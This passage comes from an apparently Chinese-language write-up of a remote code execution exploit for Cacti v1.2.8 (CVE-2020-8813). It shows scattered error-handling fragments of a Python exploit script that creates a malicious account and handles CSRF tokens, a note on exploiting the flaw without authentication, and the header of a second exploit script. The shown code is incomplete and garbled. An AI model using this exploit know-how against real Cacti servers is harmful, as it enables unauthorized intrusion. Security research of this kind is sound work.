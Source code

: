 ```
else:

print("[-]Error while activating the malicous account")

```
 else:
        print("[-] Unable to retrieve CSRF token from admin page!")
        exit()

else:
    print("[-]Cannot Login!") 
``` `else:

print("[-] Unable to retrieve CSRF token!")

exit()` 
```

运行漏洞利用代码后，我们将获得以下内容：

![image](img/843e24cae54166a12e2b8d8b049b31e3.png)

### 未经身份验证的利用

如果Cacti启用了“来宾实时图”特权，则无需身份验证即可利用此漏洞，因此在这种情况下，不需要身份验证部分，您可以使用以下代码来利用此漏洞：

```
#!/usr/bin/python3

# Exploit title: "Cacti v1.2.8 Unauthenticated Remote Code Execution"

# Date: 03/02/2020

# Exploit Author: Askar (@mohammadaskar2)

# CVE: CVE-2020-8813

# Vendor Homepage: [https://cacti.net/](https://cacti.net/)

# Version: v1.2.8

# Tested on: CentOS 7.3 / PHP 7.1.33

```